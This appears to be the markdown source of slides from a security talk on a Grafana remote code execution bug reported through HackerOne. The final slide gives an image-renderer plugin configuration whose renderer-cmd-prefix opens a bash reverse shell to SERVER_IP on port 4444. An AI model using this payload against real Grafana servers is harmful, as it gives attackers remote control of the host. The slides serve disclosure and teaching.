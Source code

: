 # Grafana RCE - Q2

<img src="img/grafana_rendering2.png"/>

<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>


---

# Grafana RCE

- <https://peter.sh/experiments/chromium-command-line-switches/>:
<img src="img/grafana_rendering3.png"/>

<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>


---

# Grafana RCE

- Verified that it works on local Grafana instance
- How to establish reverse shell:
```txt
[plugin.grafana-image-renderer]
rendering_args=--renderer-cmd-prefix=bash -c bash -l > /dev/tcp/SERVER_IP/4444 0<&1 2>&1
```


[^1]: https://github.com/aiven/terraform-provider-aiven/blob/v2.1.9/aiven/templates/service_user_config_schema.json
[^1]: https://gist.github.com/frohoff/8e7c2bf3737032a25051
[^1]: https://docs.aiven.io/docs/products/kafka/kafka-connect/howto.html
[^1]: https://github.com/Jarijaas/helsec-1103